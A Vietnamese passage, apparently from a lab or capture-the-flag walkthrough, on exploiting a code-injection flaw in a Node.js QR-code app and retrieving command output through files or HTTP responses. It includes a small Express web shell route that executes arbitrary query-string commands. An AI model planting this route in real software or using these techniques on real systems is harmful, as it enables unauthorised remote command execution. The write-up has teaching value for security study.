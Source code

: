 Một cách khác là thay vì ghi vào tệp công khai, chúng ta có thể thay đổi mã nguồn của ứng dụng, thêm một route API mới (ví dụ: `/api/cmd`), và sử dụng nó như một web shell đơn giản để thực thi lệnh và trả kết quả.

**Ví Dụ Mã Tạo Web Shell**:
```javascript
app.get("/api/cmd", (req, res) => {
  const cmd = require("child_process").execSync(req.query.cmd).toString();
  res.send(cmd);
});
```

**Giải Pháp Khác**:
Nếu không thể thay đổi mã nguồn của ứng dụng, chúng ta có thể thử lợi dụng các lỗ hổng có sẵn trong hệ thống (nếu có) như Local File Inclusion (LFI), SQL Injection, hay các lỗ hổng đọc tệp khác.

### Bước 4: Lựa Chọn Phương Pháp Khai Thác

Sau khi kiểm tra các phương án, có thể lựa chọn giữa:

1. **Ghi kết quả vào một tệp trong thư mục có quyền truy cập công khai**: Nếu ứng dụng cho phép ghi vào các thư mục có thể truy cập công khai, chúng ta có thể ghi kết quả vào một tệp trong đó và đọc kết quả qua HTTP.
2. **Inject kết quả vào phản hồi HTTP**: Một cách khác là trả kết quả trực tiếp qua một API endpoint mà chúng ta có thể truy cập từ client.

Chúng ta sẽ cần thử nghiệm thêm các cách tiếp cận này để đảm bảo rằng kết quả của lệnh thực thi có thể được truy cập từ xa, nhằm tiếp tục khai thác lỗ hổng này.

---

# 13. Tiêm Phản Hồi HTTP (HTTP Response Injection)

Bây giờ, sau khi xác nhận rằng lỗ hổng code injection đã được khai thác thành công và có thể thực thi các lệnh hệ thống, bước tiếp theo là cố gắng khai thác lỗ hổng này để lấy kết quả của các lệnh thực thi từ xa qua phản hồi HTTP.

### Phân Tích Phản Hồi HTTP
Dựa trên mã nguồn của ứng dụng, chúng ta biết rằng các phản hồi có thể nhận được từ endpoint `/generate` bao gồm:

1. **403 - Unauthorized** (Không có quyền)
2. **403 - Invalid input (non admins)** (Dữ liệu không hợp lệ - người dùng không phải admin)
3. **403 - verbose message (admins)** (Thông báo chi tiết cho admin)
4. **500 - Could not generate QR code** (Lỗi chung)

Do yêu cầu của ứng dụng yêu cầu quyền admin để có thể đi đến đoạn mã có lỗ hổng, ta sẽ bỏ qua 2 phản hồi đầu tiên. Ta cũng đã thấy phản hồi lỗi 500 trong các thử nghiệm trước và không thể chèn kết quả lệnh vào đó vì nó là văn bản tĩnh. Do đó, ta sẽ tập trung vào phản hồi với mã 403, nơi có thể xuất hiện thông báo chi tiết khi người dùng có quyền admin.

### Kiểm Tra Lỗi 500
Tuy nhiên, chúng ta đang nhận được lỗi 500 mỗi khi gửi yêu cầu tiêm mã. Chúng ta cần hiểu lý do tại sao không nhận được thông báo chi tiết và tại sao lệnh của chúng ta không được thực thi.

